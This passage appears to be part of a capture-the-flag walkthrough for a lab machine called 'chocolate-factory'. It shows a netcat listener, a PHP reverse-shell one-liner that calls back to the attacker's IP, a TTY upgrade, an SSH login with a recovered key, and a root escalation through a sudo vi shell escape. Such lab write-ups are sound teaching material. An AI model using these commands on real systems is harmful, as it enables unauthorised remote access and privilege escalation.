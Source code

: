 ----

## 5. Exploitation

   The webpage provided a command line to execute.
    
  Attack machine:
    ```
    nc -lvnp 4444
    ```

  On the webpage command line:

    ```
    php -r '$sock=fsockopen("10.21.15*.***",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
    ```


   Gained Access As: www-data

   TTY spawn in shell
   ```
   python3 -c 'import pty; pty.spawn("/bin/bash")'
   ```

   Findings:
   ```
   www-data@chocolate-factory:/home/charlie$ ls
   ls
   teleport  teleport.pub  user.txt
   ```

   SSH login as Charlie:
   ```
   ssh -i teleport charlie@10.10.217.234
   ```


----

## 6. Privilege Escalation

   Method: Sudo -l

  Tool Used: vim
```
charlie@chocolate-factory:/$ sudo -l
sudo -l
Matching Defaults entries for charlie on chocolate-factory:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User charlie may run the following commands on chocolate-factory:
    (ALL : !root) NOPASSWD: /usr/bin/vi
```
Then:
```
charlie@chocolate-factory:/$ sudo /usr/bin/vi -c ':set shell=/bin/bash | shell'
```
